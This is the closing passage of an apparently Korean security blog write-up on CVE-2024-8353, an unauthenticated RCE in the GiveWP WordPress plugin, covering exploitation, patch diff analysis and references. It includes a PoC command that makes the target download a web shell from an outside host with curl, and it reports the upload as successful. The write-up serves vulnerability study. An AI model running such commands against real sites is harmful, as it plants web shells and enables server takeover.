 PoC코드를 실행합니다.
```
python3 CVE-2024-8353.py -u http://localhost:8080/?p=9 -c "curl -O https://rlaaudrb1104.github.io/test_webshell.php"
```
웹쉘을 성공적으로 업로드 할 수 있습니다.

![image.png](/assets/posts/one-day/2025-02-21/image-004.png)

## 5. 패치 내용 및 변경사항 분석
```diff
@@
- $user_info = stripslashes_deep( $user_info );
+ $user_info = array_map('\Give\Helpers\Utils::maybeSafeUnserialize', stripslashes_deep( $user_info ));
@@
-     'user_info'    => stripslashes_deep( $user_info ),
+     'user_info'    => $user_info,
```

해당 취약점에 대한 패치는 `stripslashes_deep()` 함수의 역직렬화 우회 문제를 해결하는 방식으로 적용되었습니다. 
이를 통해 공격자가 직렬화된 악의적인 데이터를 주입할 수 없도록 방지합니다.


## 참고자료

https://www.wordfence.com/blog/2024/08/4998-bounty-awarded-and-100000-wordpress-sites-protected-against-unauthenticated-remote-code-execution-vulnerability-patched-in-givewp-wordpress-plugin/

https://github.com/EQSTLab/CVE-2024-8353